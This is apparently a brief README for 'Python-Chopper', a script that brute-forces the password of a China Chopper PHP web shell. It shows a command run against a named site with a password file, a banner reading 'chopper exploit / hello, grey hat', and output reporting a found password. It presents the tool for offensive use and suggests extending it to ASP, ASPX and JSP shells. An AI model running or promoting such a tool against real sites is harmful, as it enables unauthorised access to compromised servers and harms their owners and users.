 Python-Chopper

only for php, 
u can add asp, aspx,jsp for yourself.
modified from someone, thx.


PS D:\> python chopper-php.py http://www.aaaa.cn/php/1.php passwords.txt

        +-----------------------------------------------------+
        +                                                     +
        +               chopper exploit                       +
        +                      hello, grey hat                +
        +                                                     +
        +-----------------------------------------------------+

Targer :          http://www.aaaa.cn/php/1.php

Password-File :   passwords.txt

Default threads : 1

Completed :       63.16%

[+] Found password -> gg
